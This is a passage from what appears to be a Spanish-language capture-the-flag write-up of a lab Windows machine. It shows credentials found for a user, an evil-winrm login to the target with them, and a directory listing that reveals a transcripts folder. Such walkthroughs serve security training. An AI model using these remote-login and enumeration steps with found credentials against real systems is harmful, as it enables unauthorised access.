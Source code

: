 Encontramos las credenciales validas por el servicio `winrm`:

```python
melanie : Welcome123! 
```

# Escalada de privilegios

## Usuario : melanie

Teniendo las credenciales, ahora nos autenticaremos por el servicio `winrm` con la herramienta `evil-winrm` 

```python
❯ evil-winrm -i 10.10.10.169 -u melanie  -p 'Welcome123!'
```

![20240329170355.png](20240329170355.png)

Enumerando encontraremos con un directorio que es `PSTransciprts` que me pareció algo interesante 

```python
*Evil-WinRM* PS C:\> ls -force
```

Revisando cada una de los directorios podremos encontrara un archivo interesante

![20240329172303.png](20240329172303.png)
